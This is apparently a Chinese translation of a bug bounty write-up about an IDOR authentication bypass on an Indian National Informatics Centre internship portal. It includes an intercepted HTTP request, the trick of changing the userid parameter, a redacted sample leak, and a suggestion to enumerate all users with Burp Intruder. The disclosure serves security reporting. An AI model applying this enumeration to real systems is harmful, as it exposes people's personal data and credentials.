

# 国家信息中心的 API 认证旁路

> 原文：<https://infosecwriteups.com/api-authentication-bypass-on-national-informatics-centre-d438b3bae085?source=collection_archive---------2----------------------->

嘿黑客们！！！我的名字是克里希纳德夫·P·梅勒维拉。我是一名 20 岁的 web 应用渗透测试员。更多细节请在谷歌上搜索我的名字。

> ***漏洞:*** 绕过 API 认证
> 
> ***冲击:零点一天***
> 
> ***风险:*** 敏感数据泄露与 IDOR 连锁
> 
> ***优先级:P0***
> 
> ***范围:*** 教育详情、电话号码、加密密码、令牌、个人敏感详情



国家信息中心

首先我会告诉你我是怎么来的这个漏洞。

像往常一样，我在 Instagram 上冲浪，我通过的网站 **vidyakosh.nic .得知国家信息中心提供暑期实习机会。我不再等待，立即投入申请。但在填写完申请的所有阶段后，它给我显示了一条信息，即它只适用于三年级学生。因为我是 BTech 一年级的。学生，我没有资格申请。**

所以我变得悲伤，

但是，我从来没有决定后退，而是打开了我的黑客模式！！！

我是如何拿到这份报告的？

我看到 NIC Instagram 发布了暑期实习的消息。然后我赶紧跑去敷。但不幸的是，实习只针对三年级的 BTech。60 分的学生。我是一年级学生。所以我变得失望。但是我的激情唤醒了我，并开始测试这个网站，触及这个弱点。这是我在国家信息中心的第二个 bug。第一个是由 NIC 开发的喀拉拉邦民用物资网站 IDOR。

现在阅读技术报告！

从攻击者的角度再现的步骤

第一步:在填写申请表的第四步时，截取请求，你将得到如下请求。

```
POST /public/internship/userdetails HTTP/1.1 
Host: vidyakosh.nic.in Cookie: pop=1; laravel_cookie_consent=1; nic_lms_session=<REDACTED> XSRF-TOKEN=<REDACTED>
Content-Length: 56
Sec-Ch-Ua: “ Not A;Brand”;v=”99", “Chromium”;v=”99", “Google Chrome”;v=”99" 
Accept: application/json, text/javascript, */*; q=0.01 
Content-Type: application/x-www-form-urlencoded; charset=UTF-8 
X-Requested-With: XMLHttpRequest 
Sec-Ch-Ua-Mobile: ?0 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36 
Sec-Ch-Ua-Platform: “Windows” 
Origin: [https://vidyakosh.nic.in](https://vidyakosh.nic.in) 
Sec-Fetch-Site: same-origin 
Sec-Fetch-Mode: cors 
Sec-Fetch-Dest: empty 
Referer: [https://vidyakosh.nic.in/public/internship/internshipstep4](https://vidyakosh.nic.in/public/internship/internshipstep4) Accept-Encoding: gzip, deflate 
Accept-Language: en-US,en;q=0.9,ml;q=0.8,hi;q=0.7 
Connection: close userid=13&_token=<REDACTED>
```

在这里，您可以看到一个名为“userid”的参数，如果我们将其更改为除“13”以外的任何其他值，我们将获得其他用户的数据，如下所示。

```
{“message”:[{“id”:1,”fname”:”Manish”,”active”:0,”email”:”<REDACTED>”,”email_otp”:””,”mobile”:”<REDACTED>",”mobile_otp”:””,”arn_no “:””,”gender”:”1",”password”:”<REDACTED>",”created_on”:”2022–04–01 16:32:11",”updated_on”:”2022–04–01 13:40:38",”dob”:”0000–00–00",”father_name”:””,”mother_name”:””,”state_id”:0 ,”dist_id”:0,”adress1":””,”adress2":””,”pin”:0,”session”:””,”s_year”:””,”st atement_purpose”:””,”photo”:””,”sign”:””,”project”:””,”education_pattern”:” “,”institute_category”:0,”institute_name”:””,”institute_adress”:””,”institu e_telephone”:””,”institute_email”:””,”bank_ac_no”:””,”bank_name”:””,”ifsc_c ode”:””,”branch_name”:””,”test”:””,”deleted_at”:null,”remember_token”:”<REDACTED>”,”pursuing_year”:” “,”form_submit_value”:0}]}
```

使用任何自动化工具，如 burp 入侵者，我们可以获取完整的用户数据，包括用户名和密码。

> 报告日期:2022 年 4 月 3 日
> 
> 部分修复发布于:2022 年 3 月 4 日
> 
> 完整修复发布于:2022 年 4 月 4 日

参加我报告的高级软件工程师需要一个特别的大喊，因为他非常敬业。他一收到我的消息，就迅速行动，并在当天晚上发布了部分补丁。

所有人都在这里，

***别忘了在 medium 等社交媒体上关注我。也请为这篇文章鼓掌 50 次，这是我写更多的灵感！！***

**我需要你们的支持来写更多，请给我买杯咖啡吧 pls:**[**【https://www.buymeacoffee.com/krishnadevpm】**](https://www.buymeacoffee.com/krishnadevpm)

*我的 Instagram 手柄:*[*https://instagram.com/krishnadev_p_melevila*](https://instagram.com/krishnadev_p_melevila)

*我的推特句柄:*[*https://twitter.com/Krishnadev_P_M*](https://twitter.com/Krishnadev_P_M)

*我的 LinkedIn 手柄:*[【https://www.linkedin.com/in/krishnadevpmelevila/】T21](https://www.linkedin.com/in/krishnadevpmelevila/)

*我的人事网站:*[*http://krishnadevpmelevila.com/*](http://krishnadevpmelevila.com/)